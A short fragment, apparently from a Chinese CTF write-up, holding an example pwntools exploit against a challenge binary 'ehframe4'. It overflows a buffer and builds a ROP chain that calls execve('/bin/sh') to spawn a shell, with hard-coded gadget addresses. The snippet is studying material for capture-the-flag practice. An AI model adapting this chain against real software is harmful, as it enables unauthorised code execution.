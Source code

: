 #### 示例 exp

```bash
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./ehframe4')
def p():
    gdb.attach(proc.pidof(io)[0],'b read')

p()
name_addr = 0x4D93D0
test_addr = 0x401a9d

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)

pop_rdi = 0x000000000040286c #: pop rdi ; ret
pop_rdx_rbx = 0x000000000049769b #: pop rdx ; pop rbx ; ret 
pop_rsi = 0x0000000000403f59 #: pop rsi ; ret
pop_rax = 0x0000000000462e77 #: pop rax ; ret
syscall = 0x0000000000401bcd #: syscall
binsh = 0x4d93a0
main = 0x401B8C
io.recvuntil("called") 

payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)

io.send(payload)
io.interactive()
```
